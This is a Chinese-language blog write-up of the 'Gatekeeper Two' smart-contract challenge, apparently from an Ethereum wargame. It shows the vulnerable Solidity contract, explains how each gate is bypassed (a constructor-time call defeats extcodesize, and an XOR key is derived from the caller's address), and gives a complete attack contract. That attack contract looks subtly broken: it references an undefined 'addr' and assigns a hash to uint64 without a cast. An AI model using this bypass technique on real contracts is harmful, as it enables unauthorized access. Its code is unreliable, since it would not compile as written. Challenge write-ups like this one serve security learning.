 ```yaml
---
layout: post
title: Gatekeeper two
---
```


# Gatekeeper two
assembly的用法等
```solidity
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### 代码分析
1. gateOne：和Gatekeeper one一样
2. gateTwo：extcodesize(caller)可以返回调用者地址的code size大小；gateTwo需要调用者地址没有存储代码，这
看起来似乎和gateOne有点矛盾，但在攻击合约的构造函数中调用该合约时，因攻击合约交易还未完成，没有打包进块，所以
excodesize返回的值为0；
3. gateThree：保证可以满足公式，因为`keccak256(msg.sender)`中对msg.sender进行了hash计算，又因为gateOne
和gateTwo，msg.sender为攻击合约，且攻击合约的地址不能确定（因为调用必须在构造函数中进行），所以需要将该逻辑在
构造函数中执行一遍

### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract Test {
    function Test() {
        uint64 a = keccak256(this);
        uint64 b = uint64(0) - 1;
        uint64 c = b - a; // c ^ a = b // b = 0xffffffffffffffff
        send(bytes8(c));
    }
    
    function send(bytes8 key) {
        addr.call(bytes4(keccak256("enter(bytes8)")), key);
    }
}
```

### 攻击方法
1. 部署攻击合约，合约构造时自动攻击。